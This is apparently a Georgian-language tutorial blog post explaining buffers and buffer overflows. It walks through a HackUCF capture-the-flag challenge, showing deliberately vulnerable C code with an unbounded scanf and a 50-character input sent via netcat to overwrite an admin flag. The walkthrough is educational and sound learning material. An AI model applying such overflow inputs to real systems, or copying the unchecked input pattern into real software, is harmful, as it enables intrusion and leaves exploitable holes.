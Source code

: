 ```yaml
---
title: "Buffer Overflow ქართულად"
date: 2024-12-23 00:00:00
categories: Explanations, ქართულად
tags: ახსნა,ქართულად,tutorials,explanaton
---
```


# რა არის Buffer?

Buffer არის ინფორმაციის შენახვის ადგილი კომპიუტერის მეხსიერებაში, რომელიც გამოიყენება მონაცემთა დამუშავებისთვის და მონაცემთა შესანახად.

მაგალითად ავიღოთ კოდი:

```c
#include <stdio.h>

int main() {
    char name[5];
    
    printf("სახელი: ");
    scanf("%s", name);
    
    printf("გამარჯობა, %s\n", name); 
    return 0;
}
```

ამ შემთხვევაში, Buffer არის name, რომელელშიც შეგვიძლია შევინახოთ მაქსიმუმ 5 სიმბოლო.

# რა არის Buffer Overflow?

Buffer Overflow არის შეხწევადობა რომელიც მაქსიმუმ ინფორმაციაზე მეტის შეტანის შემდეგ ხდება. მაგალითად შეგვიძლია ავიღოთ სათლი და დავიწყოთ მაში წყლის ჩასხმა. თუ ლიმიტზე მეტ წყალს ჩავასხავთ, წყალლი სათლიდან გადმოსვლას დაიწყებს.

ამ შემთხვევაში, ჩვენ თუ შევიტანთ ლიმიტზე მეტ ინფორმაციას, ჩვენი პროგრამა ვერ იმუშავებს ისე როგორც უნდა ემუშავა.

პროგრამამ უნდა იმუშავოს ასე:

```sh
jstr$ gcc main.c
jstr$ ./a.out
სახელი: test1
გამარჯობა, test1
```

თუ შევიტანთ 5ზე მეტ სიმბოლოს, გვექნება ასეთი შედეგი:

```
jstr$ ./a.out
სახელი: Jester
*** stack smashing detected ***: terminated
Aborted (core dumped)
```

`stack smashing detected` ნიშნავს რომ კომპაილერმა (ამ შემთხვევაში gcc-მ) შეამჩნია რომ Buffer Overflow მოხდა, და კოდის ტერმინაცია მოახდინა.

# Buffer Overflow-ს გამოყენება

მაგალითად გამოვიყენებთ HackUCF-ის ამოცანას:

```
Pwn that buffer!

nc ctf.hackucf.org 9000
```

მიბმულია ორი ფაილი, bof1 და bof1.c

გავუშვათ Net Cat:

```
jstr$ nc ctf.hackucf,org 9000

test
Nope!
```

`test` ის შეტანის დროს პასუხად გამოიტანა `Nope!`. მოდით შევხედოთ C ფაილს.

```c
#include <stdio.h>
#include <stdlib.h>

void win(void) {
	char flag[64];
	
	FILE* fp = fopen("flag.txt", "r");
	if(!fp) {
		puts("error, contact admin");
		exit(0);
	}
	
	fgets(flag, sizeof(flag), fp);
	fclose(fp);
	puts(flag);
}

int main(void) {
	int admin = 0;
	char buf[32];
	
	scanf("%s", buf);
	
	if(admin) {
		win();
	}
	else {
		puts("nope!");
	}
	
	return 0;
}
```

რადგანაც `buf`-ს აქვს 32 სიმბოლოს ლიმიტი, ჩვენ უნდა შევიტანოთ 32 სიმბოლოზე მეტი.

```
jstr$ python3
Python 3.13.1 (tags/v3.13.1:0671451, Dec  3 2024, 19:06:28) [MSC v.1942 64 bit (AMD64)] on win32
Type "help", "copyright", "credits" or "license" for more information.
>>> print('A'* 50)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

(Python-ს იმიტომ ვიყენებ რომ დათვლა მეზარება T_T )

კიდევ ერთხელ გამოვიყენოთ NetCat :
```
jstr$ nc ctf.hackucf.org 9000
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
flag{my_first_buffer_overflow!}
```



